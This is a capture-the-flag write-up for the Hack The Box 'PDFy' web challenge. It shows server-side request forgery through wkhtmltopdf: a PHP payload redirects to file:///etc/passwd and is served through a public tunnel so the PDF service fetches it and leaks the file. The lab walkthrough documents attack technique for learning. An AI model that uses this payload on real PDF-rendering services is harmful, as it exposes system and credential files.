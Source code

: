 # [PDFy](https://app.hackthebox.com/challenges/PDFy) Writeup [HTB]
_Web_

## Investigating the website
This is a black box challenge, meaning we don't have access to the website code. Therefore, I begin with analyzing its behavior.
It's a simple website that takes a URL as input and returns its PDF version, computing it server-side.

Since I know from the challenge description that the flag is in `/etc/passwd`, my first attempt is simply entering the URL:
```
file:///etc/passwd
```
This attempt doesn't work, as the website returns me a "URL malformed" response.

I then try to send a random, non-existent URL. This provides me with a very interesting result:
```
Request:
    "url":"http://sjdfhdjfh"
Response:
    "level": "error"
    "message": "There was an error: Error generating PDF: Command '['wkhtmltopdf', '--margin-top', '0', '--margin-right', '0', '--margin-bottom', '0', '--margin-left', '0', 'http://sjdfhdjfh', 'application/static/pdfs/07727dc8981945ff4d8a5d4c2c76.pdf']' returned non-zero exit status 1."
```
I now have the tool name!

## Breaking the PDF-ification
I immediately search for some known `wkhtmltopdf` exploits on the Internet, and I find out that it's vulnerable to local file inclusion (LFI) and server-site request forgery (SSRF). I also find [this interesting exploit](https://exploit-notes.hdks.org/exploit/web/security-risk/wkhtmltopdf-ssrf/), which I adapt to my use-case to get the file.

The exploit is composed of three parts.

### 1 > Preparing the malicious file
First, I need to craft a not-suspicious-at-all file, referencing `/etc/passwd`. Let's call it `sus.php`.
```html
<!DOCTYPE html>
<html>
<body>
    <?php header('location:file:///etc/passwd'); ?>
</body>
</html>
```
When this file is transformed in PDF on the server side, it will automatically include the content of `/etc/passwd`.

### 2 > Exposing the malicious file
Now that the file is ready, we need to expose it to the Internet, for our website to access it. 
To do so, I first create a php server on `localhost`:
```sh
php -S localhost:8000
```
I then use [serveo](https://serveo.net/) to expose this local server.

### 3 > Generate the PDF!
Finally, it's time to generate! I prepare the URL and feed it to PDFy:
```
https://e794c1568d1a1ad10d344a9ab47cb330.serveo.net/sus.php
```
I download the resulting PDF, open it, and get the flag!

## Read more!
[➡️ Next challenge: jscalc](./jscalc.md)